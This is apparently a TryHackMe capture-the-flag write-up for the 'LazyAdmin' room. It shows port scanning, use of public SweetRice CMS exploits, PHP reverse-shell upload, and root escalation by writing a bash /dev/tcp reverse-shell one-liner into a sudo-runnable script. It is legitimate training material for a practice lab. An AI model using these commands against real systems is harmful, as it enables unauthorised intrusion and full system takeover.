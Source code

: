 # LazyAdmin

**Room Link:** [https://tryhackme.com/room/lazyadmin](https://tryhackme.com/room/lazyadmin)



### Scanning

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (60) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt 
```



<figure><img src="../../.gitbook/assets/image (76) (2).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
searchsploit sweet rice
searchsploit -m php/webapps/40718.txt
```

<figure><img src="../../.gitbook/assets/image (49) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (64) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (137).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (62) (1).png" alt=""><figcaption></figcaption></figure>

**Link:** [https://crackstation.net/](https://crackstation.net/)

<figure><img src="../../.gitbook/assets/image (61) (2).png" alt=""><figcaption></figcaption></figure>

Tried to ssh with the credentials but it didn't work, went back to searchsploit because I saw a python script before but it needed credentials. I modified the script to take the input because I waa lazy.&#x20;

**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
searchsploit sweet rice
searchsploit -m php/webapps/40716.py
python 40716.py
```

<figure><img src="../../.gitbook/assets/image (7) (9).png" alt=""><figcaption></figcaption></figure>

The php reverse shell setups up a reverse shell so I setup a nc listener on Kali and went to the URL the script mentioned.

<figure><img src="../../.gitbook/assets/image (133).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1234
```

<figure><img src="../../.gitbook/assets/image (132).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

**Victim**

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

<figure><img src="../../.gitbook/assets/image (53) (3).png" alt=""><figcaption></figcaption></figure>

### **Privilege Escalation**

The user has access to run backup.pl without a password, I checked the the file and all it does is run a bash script. We have access to write to copy.sh so I changed it to a reverse shell one liner and setup my listener on Kali.

<figure><img src="../../.gitbook/assets/image (56) (2).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 8080
```

**Victim**

```
echo "bash -c 'bash -i >& /dev/tcp/$KALI/8080 0>&1'"> copy.sh
sudo /usr/bin/perl /home/itguy/backup.pl
```

<figure><img src="../../.gitbook/assets/image (139).png" alt=""><figcaption></figcaption></figure>















